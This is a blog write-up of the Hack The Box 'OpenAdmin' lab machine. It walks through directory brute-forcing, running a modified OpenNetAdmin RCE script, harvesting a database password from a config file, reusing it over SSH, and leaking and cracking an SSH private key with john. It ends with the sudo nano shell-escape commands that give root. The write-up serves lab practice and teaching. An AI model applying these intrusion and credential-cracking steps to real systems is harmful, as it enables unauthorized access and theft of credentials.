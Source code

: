 ```yaml
---
layout: post
title:  Openadmin
date:   2020-01-30
categories: htb-writeup
---
```


{:.text-centered}
### OPENADMIN@HTB

![Banner](../../../../assets/img/openadmin/banner.png){:.image-centered}

Openadmin is an easy box from hackthebox. Ok let’s start.

### Quick Hack:

__Initial foothold:__ Port Scan > 80/http > /music site > login link > OpenNetAdmin panel > exploit for that version > modify and run it > get login details for jimmy.

__User1:__  ssh as jimmy > run id > find files for group internal > internal service running on localhost > ssh port forwarding > modify one script > open the service > get ssh key for joanna.

__User2:__ Crack the ssh key > ssh as joanna > user.txt

__Root:__  run sudo -l > one sudo command without password > GTFO bins > abusing the nano editor > root.txt

### INITIAL FOOTHOLD
Run nmap to find open ports. Nmap will show result like this:

![nmap scan](../../../../assets/img/openadmin/nmap.png){:.image-left}

We have two open ports; 22 is ssh and 80 is http. Open http in browser. Default apache config page,nothing interesting there. So let's run gobuster.

    gobuster dir -u http://10.10.10.171 -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt

After running it will start to find other sites,the result will look loke this:

![gobuster](../../../../assets/img/openadmin/gobuster.png){:.image-left}

Let's go to the /music folder. It is a site itself. Look at the links on the site,login and create an account could be potential entry point to something interesting. Login link links to somewhere else "/ona".Open it,it opens to a new service. [OpenNetAdmin](http://opennetadmin.com/) . And also reveals its version; it is 18.1.1 .Search for exploit for this version of Opennetadmin.

![ona](../../../../assets/img/openadmin/ona_18.1.1.png){:.image-left}

    searchsploit opennetadmin

And it gives result of RCE is present on that version. one shell script and a metasploit module is present of the exploit.I took the shell [script](https://www.exploit-db.com/exploits/47691).

![searchsploit](../../../../assets/img/openadmin/nmap.png){:.image-left}

But the shell script does not work as it is,you have to do some modification to run it. So, I made the modifications and put it on github,get it from [here](https://www.github.com/opennetadmin_rce_18.1.1). Run it.

    ./script.sh http://10.10.10.171/ona 10.10.xx.xx

You will get a shell,but it is not a fully functional reverse shell. So from here you can upload a php reverse shell script and get a reverse shell and work with that. Or you can get the information what you need for the next step and close it. How to use php reverse shell I have explained in [networked](https://ald3rs0n.github.io/htb-writeup/2019/11/16/networked.html) writeup.

Ok,now you have got a shell as www-data,let's go for a user.

## US3R 1 - JIMMY

As www-data you will land on /opt/ona/www and you can't run *cd* here.Run *cat* on */etc/passwd* and you will get two users there *jimmy* and *joanna*.

    cat /etc/passwd

Run *ls* and you will see bunch of files and directories,start enumarating them. I am only showing the path where you will get something interesting.

    ls local/
    ls local/config/
    cat local/config/database_settings.inc.php


![local](../../../../assets/img/openadmin/local.png){:.image-left}

![dbpasswd](../../../../assets/img/openadmin/dbpasswd.png){:.image-left}

Here in this file you will get a password for the mysql database,grab that password and try to login with that as joanna and jimmy. You will be able to login as jimmy with that pasword. But here there is no user flag so you have to be joanna to get the user flag. Well as www-data you can also run local prevesc scripts like *linenum* or *linpeas*, but that didn't helped me so I am omitting that part.

## US3R 2 - JOANNA

Ok as always I try *ps -aux, sudo -l, id, crontab -l* etc to get basic idea about that user,group,what the user can do and if there is any cron running. *id* says jimmy is a member of a special group name *internal* . That's interesting,let's see who are the members of that group.

    cat /etc/group

We can see that joanna is also a member of that group. Ok,let's check files and folders belongs to that group.

    find / -group 1002 2>/dev/null #1002 is the id of that group

We get it:

![internal](../../../../assets/img/openadmin/internal.png){:.image-left}

Ok,let go there and see files.

    cd /var/www/internal
    ls -la

there are three files,but interesting one is *main.php*. *Cat* all the files and find what are there. In *main.php* it varifies if the user is authenticated as jimmy,if yes it runs command to cat private ssh key for joanna and prints it if not varified it redirects to authentication page. But how to reach to the internal directory from browser? We didn't get any directory for that in gobuster. Then what to do?

You can run:

    ss -lt

It will list all the listening port on tcp and among others there is a port __52846__. That is unknown and listening on localhost.
Or you can go to apache config directory and see whats going there.

    cd /etc/apache2/apache2.conf

At the bottom it says to look into *sites_enabled/* directory for virtual hosting. Going there we can find *internal.conf* file.

    cd sites-enabled/
    cat internal.conf


![vhosts](../../../../assets/img/openadmin/vhost.png){:.image-left}

It says it is listening on 127.0.0.1:52846. It it matches our previous finding from *ss -lt*.

Ok to reach to service listening on localhost we have to do ssh port forwarding.I have discussed it in details [here](https://ald3rs0n.github.io/techniques/2019/11/09/sshtunnel.html).

    ssh -L 8000:localhost:52846 jimmy@10.10.10.171

now open in browser *localhost:8000/main.php* . Damn!it redirects to index page for authentication. Ok get back to the box,go to the internal folder and copy the main into another file and open in vim to edit it.

    cp main.php main2.php
    vim main2.php

![main.php](../../../../assets/img/openadmin/main.php.png){:.image-left}

And then remove everthing that redirects to index page for authentication,mainly remove everything in the first line after *<?php* tag. Then open main2 in browser *localhost:8000/main2.php* . Gotcha! it prints ssh private key of joanna. Copy in and put in into a file and change its permissions.

    nano id_rsa #paste it here and save the file
    chmod 600 id_rsa

Try to login with it,and you can't,it asks for passphrase. Give that file to john to crack it.

    ./ssh2john id_rsa > id_rsa.john #converting it to a format that john can understand

    john id_rsa.john  -wordlist=/usr/share/wordlists/rockyou.txt

john cracks it very fast and gives the passpharse. 

Login with it as joanna and grab the flag:

    ssh -i id_rsa joanna@10.10.10.171

![user](../../../../assets/img/openadmin/user.txt.png){:.image-left}

## R00T

As joanna try:

    sudo -l

![sudo](../../../../assets/img/openadmin/sudol.png){:.image-left}

And joanna can run /bin/nano /opt/priv as sudo without password. Wow thats cool...How to exploit it? Go to [gtfobins](https://gtfobins.github.io/) and type nano to find how to exploit nano and at the end you can find how to get a shell when it is running with sudo previlage.

    Ctrl+r Ctrl+x
    reset; sh 1>&0 2>&0

Press enter and thats it,you get a shell as root.Go grab the flag and submit it. That's all.

![root flag](../../../../assets/img/openadmin/root.txt.png){:.image-left}

Hope you enjoyed; Happy Hacking.